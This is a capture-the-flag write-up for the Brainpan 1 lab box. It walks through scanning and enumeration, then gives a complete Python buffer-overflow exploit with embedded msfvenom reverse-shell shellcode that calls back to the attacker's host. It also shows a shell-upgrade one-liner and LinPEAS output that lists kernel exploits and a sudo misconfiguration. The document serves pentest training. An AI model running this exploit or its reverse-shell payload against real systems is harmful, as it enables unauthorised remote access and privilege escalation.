 # Brainpan 1
## Recon

The only thing I know about this challenge is there is a buffer overflow involved.

## Scanning

```bash
PORT      STATE SERVICE REASON         VERSION                                                                 
9999/tcp  open  abyss?  syn-ack ttl 61                                                                         
| fingerprint-strings:                                                                                         
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|  
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack ttl 61 SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
```

## Enumeration

Port `9999` is some console. I did a few password guesses but nothing stuck. Port `10000` is running a webserver which has a slightly outdated infographic about secure coding. Dirbuster found a `/bin/` directory on the webserver. There's one executable file hosted there: `brainpan.exe`. This much be the service behind port 9999. I'll copy it away for exploit development in my lab. The box says to do the work in linux, but why? I already can do it repetedly in Windows. Maybe someday I'll learn the finer points of linux debuggers, but for now I'll do it the way I already know how.

## Exploit development.

I got the service running in my lab and verified the port with nmap. The output for port 9999 matched the initial scan exactly!

The buffer overflow script I wrote only identified `\x00` as a badchar. Additionally the exploit is failing.

The exploit was failing because of a bug in the script. Working now.

I swapped out some variables and made the exploit ready for brainpan. Here is the final result:

```python3
#!/usr/bin/env python3

import socket

ip = "10.10.109.180"
port = 9999

prefix = " "
offset = 523
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.73.217 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
payload = "\xda\xc4\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x52\xbb\xad\xfc\xa8\x8e\x31\x58\x17\x83\xe8\xfc\x03\xf5\xef\x4a\x7b\xf9\xf8\x09\x84\x01\xf9\x6d\x0c\xe4\xc8\xad\x6a\x6d\x7a\x1e\xf8\x23\x77\xd5\xac\xd7\x0c\x9b\x78\xd8\xa5\x16\x5f\xd7\x36\x0a\xa3\x76\xb5\x51\xf0\x58\x84\x99\x05\x99\xc1\xc4\xe4\xcb\x9a\x83\x5b\xfb\xaf\xde\x67\x70\xe3\xcf\xef\x65\xb4\xee\xde\x38\xce\xa8\xc0\xbb\x03\xc1\x48\xa3\x40\xec\x03\x58\xb2\x9a\x95\x88\x8a\x63\x39\xf5\x22\x96\x43\x32\x84\x49\x36\x4a\xf6\xf4\x41\x89\x84\x22\xc7\x09\x2e\xa0\x7f\xf5\xce\x65\x19\x7e\xdc\xc2\x6d\xd8\xc1\xd5\xa2\x53\xfd\x5e\x45\xb3\x77\x24\x62\x17\xd3\xfe\x0b\x0e\xb9\x51\x33\x50\x62\x0d\x91\x1b\x8f\x5a\xa8\x46\xd8\xaf\x81\x78\x18\xb8\x92\x0b\x2a\x67\x09\x83\x06\xe0\x97\x54\x68\xdb\x60\xca\x97\xe4\x90\xc3\x53\xb0\xc0\x7b\x75\xb9\x8a\x7b\x7a\x6c\x1c\x2b\xd4\xdf\xdd\x9b\x94\x8f\xb5\xf1\x1a\xef\xa6\xfa\xf0\x98\x4d\x01\x93\xac\x93\x40\xba\xd9\x91\x52\x2d\x46\x1f\xb4\x27\x66\x49\x6f\xd0\x1f\xd0\xfb\x41\xdf\xce\x86\x42\x6b\xfd\x77\x0c\x9c\x88\x6b\xf9\x6c\xc7\xd1\xac\x73\xfd\x7d\x32\xe1\x9a\x7d\x3d\x1a\x35\x2a\x6a\xec\x4c\xbe\x86\x57\xe7\xdc\x5a\x01\xc0\x64\x81\xf2\xcf\x65\x44\x4e\xf4\x75\x90\x4f\xb0\x21\x4c\x06\x6e\x9f\x2a\xf0\xc0\x49\xe5\xaf\x8a\x1d\x70\x9c\x0c\x5b\x7d\xc9\xfa\x83\xcc\xa4\xba\xbc\xe1\x20\x4b\xc5\x1f\xd1\xb4\x1c\xa4\xf1\x56\xb4\xd1\x99\xce\x5d\x58\xc4\xf0\x88\x9f\xf1\x72\x38\x60\x06\x6a\x49\x65\x42\x2c\xa2\x17\xdb\xd9\xc4\x84\xdc\xcb;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```

I get a shell. But not a very good one. I was able to get a somewhat normal shell by executing `/bin/bash` and the python pty.spawn trick.

```python3
python3 -c "import pty; pty.spawn('/bin/bash');"
```

The shell was still pretty unstable and unpredictable, so I ran linpeas and downloaded the output for review.

### LinPEAS findings

> OS: Linux version 3.5.0-25-generic (buildd@lamiak) (gcc
 version 4.7.2 (Ubuntu/Linaro 4.7.2-2ubuntu1) ) #39-Ubuntu SMP Mon Feb 25
 19:02:34 UTC 2013

> Sudo 1.8.5p2

> PROCESSOR_ARCHITECTURE=x86

>  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
  [5] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [6] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

The output is messy, but it appears cron is running and the standard crontab file has an entry that starts chksrv.sh (the script that starts brainpan.exe).

> # m h  dom mon dow   command
 * * * * * /home/puck/checksrv.sh


> User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util


